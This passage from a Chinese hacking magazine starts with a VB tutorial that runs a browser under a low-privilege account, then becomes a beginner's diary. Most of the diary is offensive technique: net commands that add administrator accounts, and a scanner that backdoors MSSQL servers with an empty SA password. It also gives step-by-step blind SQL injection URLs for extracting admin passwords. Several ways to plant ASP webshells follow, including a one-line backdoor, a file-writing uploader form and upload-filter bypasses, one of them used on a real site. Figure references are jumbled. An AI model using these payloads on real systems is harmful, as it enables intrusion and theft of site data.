
主要利用 API，编写过程非常简单。需要声明的 API：

```vb
CreateProcessWithLogon
CloseHandle
RegOpenKey
RegQueryValueEx
RegCloseKey
```

打开 VB，先新建一个“ActiveX EXE”工程，再在工程中添加一个模块，在其中声明上述 API，接着编写一名为“Runas”的函数，此函数的作用就是以其他用户身份启动程序。代码如下：

```vb
Function Runas(ByVal Username As String, ByVal Password As String, ByVal Domain As String, ByVal App As String, ByVal Cmdline As String) As Boolean
    On Error Resume Next

    Dim lpUsername As String, lpDomain As String, lpPassword As String, lpApplicationName As String
    Dim lpCommandLine As String, lpCurrentDirectory As String
    Dim Startinfo As STARTUPINFO, ProcessInfo As PROCESS_INFORMATION

    lpUsername = Username
    lpDomain = Domain
    lpPassword = Password
    lpApplicationName = App
    lpCommandLine = Cmdline 'use the same as lpApplicationName
    lpCurrentDirectory = vbNullString 'use standard directory
    Startinfo.cb = LenB(Startinfo) 'initialize structure
    Startinfo.dwFlags = 0&
    Runas = False

    If CreateProcessWithLogon(StrPtr(lpUsername), StrPtr(lpDomain), StrPtr(lpPassword), LOGON_WITH_PROFILE, StrPtr(lpApplicationName), StrPtr(lpCommandLine), CREATE_DEFAULT_ERROR_MODE Or CREATE_NEW_CONSOLE Or CREATE_NEW_PROCESS_GROUP, ByVal 0&, StrPtr(lpCurrentDirectory), Startinfo, ProcessInfo) = 1 Then Runas = True

    CloseHandle ProcessInfo.hThread 'close the handle to the main thread, since we don't use it
    CloseHandle ProcessInfo.hProcess 'close the handle to the process, since we don't use it
    'note that closing the handles of the main thread and the process do not terminate the process
    'unload this application
End Function
```

函数的方法很简单，Runas（用户名、密码、域名、程序路径和程序名称、程序的命令行）。

然后我们需要的是一个读取注册表值的函数，代码如下：

```vb
Function gfsGetKeyStringValue(ByVal plKey As Long, ByVal psKey As String, ByVal psSubKey As String) As String
    Dim llKeyID As Long '打开键的 ID
    Dim llBufferSize As Long '需读取串的串值长度
    Dim lsKeyValue As String '存放读取的串值

    '预置为空
    gfsGetKeyStringValue = Empty

    glStatus = ERROR_SUCCESS '假设成功

    '确定参数有效
```

```vb
    If Len(psKey) = 0 Then '主键未设置（子键未设置则读默认值）
        glStatus = REGAGENT_NOKEY
        Exit Function
    End If

    '首先打开主键
    glStatus = RegOpenKey(plKey, psKey, llKeyID)

    If glStatus = ERROR_SUCCESS Then '成功则需读取字串的串值大小
        glStatus = RegQueryValueEx(llKeyID, psSubKey, 0&, REG_SZ, 0&, llBufferSize)
        If llBufferSize < 2 Then '空值
            glStatus = RegCloseKey(llKeyID)
        Else '有值，正式读取串值
            lsKeyValue = String(llBufferSize + 1, " ")
            glStatus = RegQueryValueEx(llKeyID, psSubKey, 0&, REG_SZ, ByVal lsKeyValue, llBufferSize)
            If glStatus = ERROR_SUCCESS Then
                gfsGetKeyStringValue = Left$(lsKeyValue, llBufferSize - 1)
            End If
            glStatus = RegCloseKey(llKeyID)
        End If
    End If
End Function
```

最后就可以写 Sub Main() 了。先读取注册表的“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths\IEXPLORE.EXE”值，来得到 IE 浏览器的位置。接着调用 Runas 函数以其他低权用户身份执行 IE。代码如下：

```vb
Sub Main()
    Dim lEPath As String

    lEPath = gfsGetKeyStringValue(HKEY_LOCAL_MACHINE, "SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths\IEXPLORE.EXE", "")

    If Not Runas("Rain", "password", "", lEPath, "") Then
        MsgBox "IE 打开失败", , "IE"
        End
    End If
End Sub
```

其中的“Rain”就是系统中的一个低权用户，这样在“工程属性”中将“启动对象”设置为“Sub Main”。将程序编译，执行后就会以 Rain 的用户权限打开一个 IE，是不是比以前方便多了？当然如果你使用的是其他浏览器，只需将 lEPath 换成你使用的浏览器路径就可以了，这样的话就不需要读取注册表部分了。

### 写在最后

到这里这个小程序就算完成了，但可以把它灵活运用，稍微改动一下代码，就可以做出一个属于自己的“Runas.exe”。方法很简单，只需用“command”接收到传递过来的参数，然后将它们拆分，传递到 Runas 函数中相应的部分。这里提醒大家一点，拆分时要分成 4 份——用户名、密码、程序及程序的命令行，一定不要把程序和它的命令行分到一起带入 Runas，命令行要传递到 Runas 的“cmdline”中才能正确使用。

自己做出来的 Runas.exe 可以克服系统的 Runas.exe 一个安全隐患，系统的 Runas.exe 的用户密码是必须要键盘输入的，而自己的可以将密码放在命令行里输入。Runas.exe 的代码我就不给出了，给大家当作一个小练习作一下吧。

（作者提到的 VB 打造低权浏览器的代码已经收录在光盘中）

> **编辑点评**：奇妙的想法来自于系统的 Runas.exe，对于小菜们来说安全第一，本文的作者就给我们提出了一种方法，利用此方法可以大大增加安全性。

## 跨年专题

## 菜鸟成长日记

花非花[L.S.T]

新年快到了，先给大家拜个早年，祝大家新年快乐，身体健康。没啥送大家的，谨以此文献给朋友们。

写本文的动机是因为我在《黑客手册》论坛“菜鸟解惑”版块上看到许多初学者在里面发帖子拜师，这让我想到了自己在成长过程中的经历、经验和教训。记录下来，希望对大家有所帮助。

- **从本文中你可以学到：**
- 1. 常用的 net 在用户方面的命令
- 2. 代理服务器设置
- 3. winnt/2000 自动探测攻击机使用
- 4. 了解部分注册表项目及配合兔子查杀恶意程序
- 5. 网络拜师小心被骗！
- 6. ASP 相关漏洞的注入及防注入
- 7. 获取 Webshell 的多种方法
- 8. cookie 欺骗
- 9. 简单社会工程学
- 10. 学会写个性化日记（汗~~）

### 一、初识网络安全

**2004 年 11 月 x+3 日 天气：阴**

买电脑的第三天，我的电脑中特洛伊木马（卡巴显示的是特洛伊木马，杀不掉……）！当时啥都不懂，就到网上找了资料，知道了特洛伊木马就是网络上的恶意程序，以为我的电脑就这么完了……紧张了半天……5700 RMB 啊！

后来，高手帮我重装了系统，让我心里总算平静下来了。不过，这次中马，使我对“网络安全”开始产生兴趣。在网上找资料，看到很多网络安全的知识（基本看不懂）和关于黑客的故事，慢慢对网络安全和黑客有了个新的认识。

为了避免自己再次被黑，我从这一天决定努力学习安全技术。

### 二、学习初级黑客技术

**2004 年 12 月 X 日 天气：晴**

今天，很幸运地在网上找到了“学生黑客联盟”（http://www.stuhack.com），当时那个兴奋啊，马上注册进去。在站里转了半天，看了一篇不知道谁写的文章：《什么是黑客》。

早在看《中国黑客》就多少有点了解，不过这里认识得比较深刻一点，黑客是一种精神——自由、共享。在我看来，黑客也是一种亦正亦邪的精神。可能自己从小就比较反叛，所以对网络安全和黑客越来越喜欢了。虽然喜欢，但是基础知识不行，在里面看了些“高深”的知识，就头昏脑胀了。还是从学习基础知识开始吧！也就是基本的 DOS 命令（我们中学就教过 DOS 常用命令，比较熟悉，既然这篇文章介绍我这只菜菜的成长过程，那么，我会将大部分黑客 DOS 基础知识介绍出来，老鸟和高手就不用看了）。

启动 DOS：  
WIN98 系统依次单击“开始”→“运行”，然后输入 command，回车；WIN2000/XP/WIN2003 依次单击“开始”→“运行”，输入 cmd，回车。

常用的 net 在用户方面的命令：

```text
net user 查看有哪些用户，账户名，查看账户的属性
net user 用户名 密码 /add 建立用户
net localgroup administrators 用户名 /add 把“用户”添加到管理员组中具有管理员权限。注意：administrator 后加 s 用复数
```

（这些命令在后面将要用到）

**2004 年 12 月 X+x2 日**

今天一个女同学说看到了我的 IP，让我大惊……（当时觉得，在网上现出 IP 是件比较危险的事情）马上到百度搜“如何隐藏自己的 IP”，很快就找到了“代理服务器”这个名词。

代理服务器英文全称是“Proxy Server”，其功能就是代理网络用户去取得网络信息。形象地说：它是网络信息的中转站。

在一般情况下，我们使用网络浏览器直接去连接其他 Internet 站点取得网络信息时，是直接联系到目的站点服务器，然后由目的站点服务器把信息传送回来。代理服务器是介于浏览器和 Web 服务器之间的另一台服务器，有了它之后，浏览器不是直接到 Web 服务器去取回网页，而是向代理服务器发出请求，信号会先送到代理服务器，由代理服务器来取回浏览器所需要的信息并传送给你的浏览器（一口气看完好像有点绕口令的感觉）。

知道了代理服务器的原理和功能，用代理服务器来隐藏自己的真实 IP，可以避免在上网时被记录下真实 IP。现在有很多搜索代理的软件，网上也有一些专门公布代理的网站（推荐一个：http://www.pass-e.com/proxy/）。

如何设置“代理服务器”呢？先运行 QQ，再打开“高级设置”，接着在“网络设置”项中按照图1做如下设置：

- 类型：代理的类型，我们这里选择 HTTP 代理（看你用的代理的类型了）
- 地址：代理服务器地址
- 端口：代理服务器作为代理的端口

设置以后测试一下，如果成功就可以用了。用 QQ 聊天有代理做替身，用简单的 QQ 外挂是查不出来的。不过，QQ 一旦在收发消息的时候，毕竟会建立连接，用天网或者 netstat -an 命令都可以查出 IP。


接着我们再为浏览器也设置一下代理服务器。我用的是 TT，所以就以 TT 为例来设置，其他浏览器的相关设置也大同小异，很简单的！

打开 TT，依次单击“工具”→“TT 选项”，然后选择“代理服务器设置”进行设置，如图2。

这样，我就可以放心地在网上转啦（后来才知道有一些网站不允许用代理，也有一些程序仍然会判断出真实 IP 地址）。

**2004 年 12 月 X+X 日**

今天又接触新知识了，很兴奋，找到了一款叫“winnt/2000 自动探测攻击机”的软件，需要涉及到不少东西：

### ① 什么是 IP 地址：IP


是 Internet Protocol（网络协议）缩写，IP 地址又称 Internet 地址，共 32 位，可用四个十进制数表示，每个数的取值范围为 0～255，每个十进制数之间用“.”号隔开（如 202.112.104.56），IP 地址又分为 A、B、C、D 四类。

②什么是端口：简单地说，端口和我们现在的门或窗口一样。只有门或窗口开了，才可以通过门或窗口看见里面的东西，或者从门或窗口进到房里，也可以看成是操作系统的门或窗口。而不同的端口又有不同的功能。

比如：21 端口主要用于 FTP（File Transfer Protocol，文件传输协议）服务，3389 端口主要用于终端服务，开了这个端口，可以用远程桌面登录这台电脑，当然需要输入用户名和密码。进去后就当自己电脑一样使用。

③什么是 Ping：Ping 是测试网络连接状况以及信息包发送和接收状况非常有用的工具，是网络测试最常用的命令。现在的防火墙都禁止 Ping。

④什么是 NetBIOS：网络基本输入/输出系统。

⑤SA 空口令：MSSQL Server 的默认管理员账号是 SA，一般把 MSSQL Server 的空密码叫作 SA 空口令。

运行“winnt/2000 自动探测攻击机”，在“IP 范围”项目中输入要扫描的起始和结束 IP 段，并选中“仅对 Ping 检查成功的机器进行检测”复选框，如图 3。

然后打开“NetBIOS”选项卡，把所有的复选项都选上，如图 4。

接着打开“SQL 漏洞”选项卡，也把所有复选项选上，攻击机会扫描 SA 为空口令的机器，并创建一个用户名、密码都为 shanlu 的系统管理员，如图 5。


设置好以后，接下来就等扫描结果了，如图 6。

如果扫描到了打开了 3389 端口的弱口令机器，就可以用 3389 连接器连接目标 IP，如图 7、8、9。


## 2004 年 12 月 X+X+N 日

今天发现同学又把电脑搞中毒了，重装系统几乎成了家常便饭！但是，总不能每次中毒都这样吧？在网上查了一下资料，开始学习注册表启动项。


注册表是启动程序藏身之处最多的地方：

说明：注册表的 [HKEY_LOCAL_MACHINE] 的键值对所有用户都有效果，而 [HKEY_CURRENT_USER] 键只对当前用户有效。

- ①Run 键

Run 键是病毒最青睐的自启动之所，该键位置是 [HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run] 和 [HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]，其下的所有程序在每次启动登录时都会按顺序自动执行。

另外还有一个不被注意的 Run 键，位于注册表 [HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run] 和 [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run]，也要仔细检查。

- ②RunOnce 键

RunOnce 位于 [HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce] 和 [HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce] 键，与 Run 不同的是，RunOnce 下的程序仅会被自动执行一次。

- ③RunServicesOnce 键

RunServicesOnce 键位于 [HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce] 和 [HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce] 下，其中的程序会在系统加载时自动启动执行一次。

- ④RunServices 键

RunServices 是继 RunServicesOnce 之后启动的程序，位于注册表 [HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices] 和 [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices] 键。

- ⑤RunOnceEx 键

这个键是 Windows XP/2003 特有的自启动注册表项，位于 [HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx] 和 [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx]。

- ⑥load 键

[HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows] 下的 load 键值的程序也可自动启动。

- ⑦Winlogon 键

该键位于注册表 [HKEY_CURRENT_USER\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon] 和 [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon]，注意下面的 Notify、Userinit、Shell 键值也会有自启动的程序，而且其键值可以用逗号分隔，从而实现登录的时候启动多个程序。

- ⑧其他注册表位置

另外有一些其他键值，也会有一些程序在这里自动运行：

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System\Shell]  
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\ShellServiceObjectDelayLoad]  
[HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\System\Scripts]  
[HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\System\Scripts]

初次杀毒，对那些键值不了解，可以通过百度找一下对应的项和值是不是可疑程序。下面是我中毒后的查杀过程。

打开超级兔子，看启动项，这么多可疑项！如图 10。

在“开始”→“运行”输入 regedit，打开注册表编辑器，将键定位到 [HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]，如图 11。

把可疑项记录下来，再删除项目，然后再去删除那些可疑项的执行程序。已经运行了的恶意程序是不能删除的，先在任务管理器里结束其进程，然后把所有的恶意程序删除，如图 12。


# 图 10

把上面的项删除完了，然后再打开兔子查看一下，发现兔子里面还是有一个 SHELL 的可疑进程。这次，我把注册表定位到 [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon]，如图 13。

在任务管理器结束掉 lhtefx.exe 这个进程，做完这一步，再打开兔子查看，没有可疑进程了，如图 14。

启动项里没有可疑进程了，所以系统基本就没事了。不过有些恶意程序留下的其他附带程序，再用杀毒软件一扫就差不多了。


# 图 11


# 图 12


图 13


图 14

## 三、一个人的坎坷

### 2005 年 4 月 X 日

最近学习一直没啥进展，老感觉自己学习实在太累了，打算在网上找个培训网，买个会员先。我找来找去看了两个站，一个是 XX 网，一个是 OO 站！犹豫不定时，发现 XX 网在搞 VB 培训，最近刚好要学 VB，就这样决定买 XX 网的 VIP。自己下了血本，把吃饭的钱统统拿出来了，又跟同学借了三百，总算把 1300 RMB 凑够了，迫不及待地去买 VIP。等客服给我开通账号之后，我参加了基础班和进阶班，啊……一夜兴奋……无眠……

### 2005 年 4 月 X+X 日

后来发现这个 XX 网讲的教程还真是差，它教的我基本都会……不过今天发现以前认识的交大仔仔也在这群里，和他攀谈起来，他说他打算在这里收徒弟，说有高手教。我一听觉得不错，可惜我的钱都花在 XX 网上了。

### 2005 年 4 月 X+Y 日

今天我拜师了，那个师傅叫“爱情傻大爷”（别人管他叫傻子，一个骗子……骗了群里许多朋友的钱），那个群是交大仔仔开的群。他和傻子做了个教程，然后在 XX 网的基础班收徒弟，放风出来说，学完马上能黑站挂马挣钱。

先是几个人被骗进去了，其实之前也不能叫骗，因为第一个教程是个黑企业网的动画，特征码找得好，而且都是最简单的 'or'='or' 漏洞，所以只要去学了，就都会黑站了。当时的“口碑”特别好，所以接着就有很多朋友跟着被骗进去了，每个人交 100-300 不等。

但是，从那个教程出来之后，他们两个就“绝种”了——再也不出教程了，基本上是我和月无痕在帮他们做教程，汗……

### 2005 年 4 月 X+N 日

今天群里大闹起来，要求仔仔做教程。可是那个所谓的师傅——交大仔仔，连当时盛行的上传漏洞都不知道，他还能做出什么教程来呢？

为了顶住压力，多骗点钱，他们请了绝杀（现在在 00 站任讲师，人品不错）和黑色旋风（又一个骗子）来压阵，因为这两个人确实有实力。不过，他们也不会给群做什么教程，有的话，也是黑色旋风在里面谈点技术问题。

### 2005 年 4 月末

今天群里又闹了，因为一直没教程，大家都耐不住了。一个被骗了的朋友出来说，他被傻子骗了 200，本来傻子说只要交钱给他，就教怎么通过注册表在网吧免费充值。结果钱一交，等于肉包子打狗了……

啊……遭遇到两个死骗子……心情跌入了低谷……最后在群里骂了那两个骗子，退群了……

### 2005 年 5 月 25

郁闷了 N 久，每天除了游戏还是游戏……

不过，今天在网上，月无痕告诉我，那群还没解散，黑色旋风有的时候会出来教点知识，我像找到了救命稻草，就跟月无痕要了黑色旋风的 QQ。

### 2006 年 5 月 26 日

今天我跟黑色旋风说我要拜师，黑色旋风说：“以前在群里，我就很看重你，相信你一定很有前途。”

我听了很高兴，不过，他接着说：“但是，你知道的，我收你做徒弟肯定要考虑经济问题的。”

我：“拜师要收多少钱？”

黑色旋风：“我收徒弟一般都交 500！”

我：“好，过几天我就把钱给你打过去。”

### 2006 年 6 月中旬

今天拜师了，师傅是黑色旋风，我把回家的路费 200 RMB 拿出来作“拜师费”，给黑色旋风打过去了。我说最近比较手头紧，等过段时间就把另 300 打过来，他说好。

### 2006 年 6 月末

这几天黑色旋风一直不见人，最多就是回我“嗯”“啊”的几句话，然后就不见了。每次我要求让他带我搞站，他都是“很是时候”地不见了……不然就是公司有什么问题，什么的……

我的直觉告诉我，我再次遇到骗子了……我的路费啊……再次郁闷三秒钟……（估计后来骗多了，名声不好了，都换 QQ 了）

### 2006 年 7 月

放假了，回家反省反省吧……

花了整整两个月恢复，终于得出了一条惊天动地的结论：“网上骗子多，要谨防骗子，靠人不如靠己！如果有高手愿意指导你，那么你就跟着好好学；如果没有，那么你还有你自己，相信自己聪明的脑袋，一定会成功的！”

## 四、进阶

任何一个人在学习过程中，总会遇到这样那样的问题，有朋友可以帮忙解决问题，自己就可以少走弯路。如果没有，那么自己在不断的探索中，也可以学习积累很多经验……

### 2006 年 1 月 X+N 日

从春节开始就准备学习 ASP，从图书馆看了几本 ASP 的书（把基础的知识过目了一遍），连着学习了好几天，想起很多牛人们发现的 ASP 漏洞，这下，我也可以好好地研究一下了。

仔细考虑了一下，就先从注入漏洞开始看。注入漏洞的产生主要是因为 Request（ASP 内建对象）获取客户端提交的数据的时候，过滤不严而造成的。

```text
request 获取客户端提交数据的方法有三种，request.
querystring（GET 方法提交数据）、request.form（以 POST 方法提交数据）和 request.cookies。一般查找程序是否存在漏洞，就用 request 方法提交数据的时候，是否对提交的数据进行严格的过滤。
```

接着拿了一套叫“翱翔购物系统”的 ASP 程序来看了一下，发现这款程序存在多处严重的注入漏洞，以下是 Product.asp 文件注入漏洞分析：

```text
行100-101: set rs2=server.CreateObject("adodb.recordset")
'创建服务器组件的实例
rs2.open "select * from product where id="&id, conn, 1, 3
'执行 SQL 查询语句
行 3: id=request.QueryString("id") '以 request.querystring 方法来获取客户端数据（id 号）
```

在使用 request.QueryString 方法的时候没用任何过滤，此时，id 号应该为数字。

本地架设起来的 URL：http://localhost/productv.asp?id=481（以后这个网址以 URL 称），此 URL 后面加上“'”，会出现什么情况呢？如图 15。


从图 15 中看到 Microsoft JET Database Engine 错误 '80040e14'（网站使用的是 Access 数据库，通过 JET 引擎连接数据库）。

字符串的语法错误，在查询表达式 'id=481'' 中（为什么会出现这样的错误？）。

原本 SQL 查询语句是这样的：select * from product where id=&id

对应上面的 URL 的查询语句是：select * from product where id=481（有些程序可能会这样：select * from product where id='481'）

再加上“'”后的 URL 的查询语句：select * from product where id=481'（针对上面的程序：select * from product where id='481''）

单引号有一个没有闭合，SQL 查询的时候要报错。再提交：URL and 1=1 的结果是什么呢？返回正常页面。

那么，提交的 URL and 1=1 的查询语句是：select * from product where id=481 and 1=1（如果是 and 1=2，那么会报错了，因为 1=2 是不成立的）。

这样的查询语句是成立的，所以这样的 URL 提交之后照样可以执行。

了解了以上原理之后，我开始尝试入侵演练……

**猜表名：**提交 http://localhost/product.asp?id=481%20and%20%20<(select%20count(*)%20from%20admin) 返回正常，说明存在 admin 表。

**查询语句是：**select * from product where id=481 and 0 <(select count(*) from admin)

**猜字段名：**提交 http://localhost/product.asp?id=481%20and%20%20exists(select%20password%20from%20admin) 返回正常，说明存在 password 列，改变 password，继续猜解其他列，猜出来的列有 admin、id、rank。

**猜字段值有多少个：**http://localhost/product.asp?id=481%20and%20%20exists(select%20count(*)%20from%20admin%20where%20len(password)>10)，用 len 函数来判断 password 字段的长度。直到 len(password) 等于某个值，且页面返回正常的时候，那么说明 password 字段的长度为那个数。

**猜字段值：**提交 http://localhost/product.asp?id=481%20and%20%20<(select%20count(*)%20from%20admin%20where%20mid(password,1,1)>0)，用 mid 函数截取 password 字段的第一个字符。改变“>”（可以使用“<”和“=”）后的值。一直到猜出 mid(password,1,1) 的值等于某个数且页面返回正常。比如，这套程序 password 字段的第一个字符为 7，那么，当我们提交 http://localhost/product.asp?id=481%20and%20%20<(select%20count(*)%20from%20admin%20where%20mid(password,1,1)=7) 时，页面就返回正常了。猜出第一个字符后，我们再改变 mid() 函数的第二个参数，也就是改变 mid(password,1,1) 中的第一个“1”，把它改成“2”，然后照着上面的办法继续猜解，直到把所有的值都猜出来。

## 2006 年 1 月 X+N+1 日

上次搞了一下觉得挺有成就感的，今天打算研究一下 SQL Injection 的修补，其实这是件比较简单的事情，只需要在提交数据 Request 上做点过滤“补充”就可以了。

比如在翱翔购物系统的 product.asp 文件，行 3：id=request.QueryString("id")。我们只需要这样写：id=int(request.QueryString("id"))。因为 ID 是数字，所以我们用 INT 函数来过滤其他字符。“ID=”后面不是数字，那么就会出现“类型不匹配”错误，如图 16。

为什么会出现这样的错误？因为我们用 int 函数强制 id 为数字，而我们在 481 后面加了单引号，然后 id 就等于“481'”，


这就是个 string 类型，所以才会出现类型不匹配的错误。

也可以用 replace 函数来过滤，当然，大部分过滤函数都是用 replace 来过滤注入所需要用到的字符、函数等，比如 BCT 的 Neeao 大哥（知其大名，见谁都亲热地叫声大哥），曾经写了一个 SQL 防注入系统（现已更新到纪念版了）。

下面是 Neeao 防注入系统的使用方法：

在需要防注入的页面头部用  
`<!--#include File="Neeao_SqlIn.asp"-->`

就可以做到页面防注入。

如果想整站防注，就在目录的数据库连接文件中添加头部调用，如 conn.asp 中添加：

```text
<!--#include File="Neeao_SqlIn.asp"-->
```

需要注意的是，在添加到数据库连接文件中，为了不和程序发生冲突，需添加在文件代码的最底部！图 17

图 18

图 19

## 2006 年 1 月 X+N+2 日

今天有个朋友问我，得到后台管理员用户名和密码以后怎么获取 Webshell？于是，就如何获取 Webshell 给他作了讲解，这些都是学习过程中留下的经验，大概内容我记录了下来。

## 方法一：数据库备份还原

这种办法是最古老的方法了，玩过动网的应该都知道。今天我用的是动网 6.0 做测试，给朋友看的。

首先传个改了后缀的 ASP 小马（根据系统的要求更改，一般是为 jpg、gif 等图片后缀都可以上传）上去。在动网 6，可以在控制面板那修改用户头像，然后到网站后台进行备份，如图 17。

接着到后台去备份还原这个 ASP 马，进入后台先找“数据处理”这一板块，然后选择“备份数据库”，如图 18。在“当前数据库路径”填写改了后缀的 ASP 马的路径，也就是图 17 的那个头像...

图 20

图片的路径“uploadface/200611616313499525.jpg”，然后“备份数据库目录”可以默认，也可以选择你喜欢的目录名。“备份数据库名称”就看你还原后的马要叫什么了，我的设置如图 19。

选择“确定”，然后在浏览器中输入 ASP 马的地址：http://localhost/dv62/databackup/huahua.asp，如图 20。

看到了吧，我的小马就跑出来了，然后传个大马上去就 OK 了。另外一个是恢复数据，这个功能也可以还原我们的马。

在“备份数据库路径”那填写改了后缀的马的路径，再在下面“目标数据库路径”这里填好要还原的马的路径，路径可随便填，但是文件后缀一定要是“.asp”，如图 21。

图 21

再按下“恢复数据”，然后在浏览器中输入马的地址就可以了。

## 方法二：数据库插马技术

找了个站进行测试，我是通过注入获得管理员用户名和密码而进入后台的，一般的管理后台都存在备份和恢复数据库的功能模块，如图 22。

图 22

虽然说有备份和恢复数据库的功能，但是这个站不存在上传的页面啊！也就是不能像方法 1 一样，先传改了后缀的 ASP 马，再备份还原或者恢复数据。那该怎么办呢？这也就是方法二要用到的数据库插马技术了。

图 23

只要数据库的后缀是以“.asp”做后缀的一般就可以插小马了。当然，其他 ASP 后缀的文件只要能写入数据也是可以插马的。从图 22 中，我们可以知道那个数据库是以 MDB 作为后缀的，所以插马就不可能了。

那么该怎么做呢？其实很简单，先找个能留言的地方插个小马进去，然后小马就写进数据库了，然后通过把数据库改成“.asp”后缀的，我们的 ASP 小马就可以成功地插进 asp 文件中了，插好了小马就可以提交大马了。

那么，怎么把数据库改成“.asp”文件呢？很简单，按方法一教的，把数据库还原成 .asp 文件就行了。基本的方法过程介绍完了，然后就来个实战吧。

先去留言插马，用的是明星级蓝屏大叔的小马 `<%execute request("l") %>`。其中“l”就是这个小马的密码，如图 23。

再备份 yifan.mdb 为 yifan.asp，如图 24。

图 24

图 28

```html
<form action=http://www.xxx.com/admin/backup/yifan.asp method=post> ! 填写要提交的文件地址
<textarea name=huahua cols=120 rows=10 width=45>
set IP=server.createObject("Adodb.Stream")
IP.Open
IP.Type=2
IP.CharSet="gb2312"
IP.writetext request("!") '简单地说是小马的密码，现在已经被破解了。
IP.SaveToFile server.mappath("semi.asp"), 2 '把提交上去的数据保存在semi.asp中。
IP.Close
set IP=nothing
response.redirect "semi.asp" '重定向到semi.asp
</textarea>
<textarea name=l cols=120 rows=10 width=45>这填写的代码
</textarea><BR><center><br> '填写大马的代码
<input type=submit value=提交>
```

服务端的代码：`<%execute request("!")%>`

execute 用来执行 asp 语句，request 对象用来获取客户端提交上来的数据，也就是服务端通过 request 对象获取客户端两个 textarea 提交上来的内容，并把它保存在 semi.asp 文件中，这样，我们就可以在 textarea 中写入木马。

图 25

配置好以后，用浏览器打开它，如图 25……再提交，如图 26。

## 方法三：寻找程序设计缺陷

这种漏洞就更简单啦，目前我看过的有这样漏洞的程序有动网 6.0（inc 目录下的 reg_txt.asp 文件）和风讯系统（const.asp 文件）。

我还是以动网 6 来进行讲解，进入后台以后选择“常规设置”的“初始信息设置”，如图 27。

把那个文字信息改成我们的马，修改好后提交“http://localhost/DV62/inc/reg_txt.asp”，如图 28。

## 方法四：修改上传类型

现在的网站程序虽然允许修改文件上传类型，但是大部分都是不允许 ASP 文件上传的。不过，我们仍然上传一些能得到服务器解析的文件，比如 asa、cer 等类型。大部分服务器还是会解析 asa、cer 等类型的（有一些网站程序的数据库是以 asa 作为后缀的），所以我们在上传文件的时候，可以将我们的马改成 asa、cer 等后缀。

图 26

好，让我们以 Ewebeditor 来做个实际演练吧，进入后台选择“样式管理”，然后选择“新增样式”（需要填那些必要的样式进去，比较麻烦）或者“拷贝”（拷贝以后会出现一个新的样式，我们可以在新的样式里进行修改），如图 29。

选择“拷贝”，然后在“其他类型”那里填上上传类型（以“|”做分隔），如图 30。

一些版本里的 ewebeditor 里面是不允许传 ASP 文件的，即便添加了 ASP 类型也不可以。因为 ewebeditor 过滤 ASP 后缀，只要有 asp 这个后缀字符串，ewebeditor 会把它过滤掉，而 asaspp、aaspsp 这样的字符串，被过滤掉“asp”以后，就剩下了 asp 了。比如，我们传的文件是 huahua.asaspp，到了服务器的时候，ewebeditor 自动去掉“asp”串，然后把文件保存在服务器，名为 huahua.asp。

图 27

看到了“Microsoft…类型不匹配：'EXECUTE!'”这一句，就算成功一半了。然后，用蓝屏客户端来提交，下面是源码讲解。蓝屏客户端的源码如下：

设置完了，提交一下，然后选择我们刚新增的那个样式的“预览”链接，如图 31。

选择“插入其他文件”按钮，如图 32。

然后，现在传个 asp 文件试试。好了，传上去了，接着单击下面的“预览”，如图 33。

将鼠标指针移动到 diy.asp，可以在浏览器底部的状态栏中看到 diy.asp 的地址，然后打开 diy.asp 的链接，如图 34。

## 方法五：上传漏洞

2005 年很火的就是利用上传漏洞在后台拿 webshell，成功率是很高的哦（鉴于上传漏洞原理有那么多前辈讲述了，所以我这里就不班门弄斧了。前台的上传漏洞更容易拿到 webshell，有兴趣的话，可以去看那时候动网 6 和动网 7.0 的上传漏洞）！

根据我的经验，在后台拿 webshell 的时候，遇到的上传漏洞主要可以分为以下两种：

- 1、加空格：我们在上传文件的时候，在文件路径后面加个空格，有的时候可以绕过文件验证，如图 35。

文件路径后还加了个空格，有些程序是可以的，但是，遇到过滤这个空格的程序就行不通了。

- 2、传 asa、cer 等可解析文件：大部分程序都会过滤 asp 文件的上传，但是服务器解析的文件不只有 asp，asa、cer 等也是可以被解析的（前提：服务器没有删除掉解析文件，如图 36 所示的文件路径就是解析文件的路径）。

限于篇幅，其他的也有抓包上传、双文件上传等漏洞，前辈们早就分析得很清楚了，就不详细介绍了。后台拿 webshell 主要还是靠经验，站搞得多了，自然就成一条思路了，大家也可以去看前辈们写的拿 webshell 的文章。

## 2006 年 2 月

今天学习 cookie 欺骗，记录下来以便日后学习用。

### 什么是 cookie?

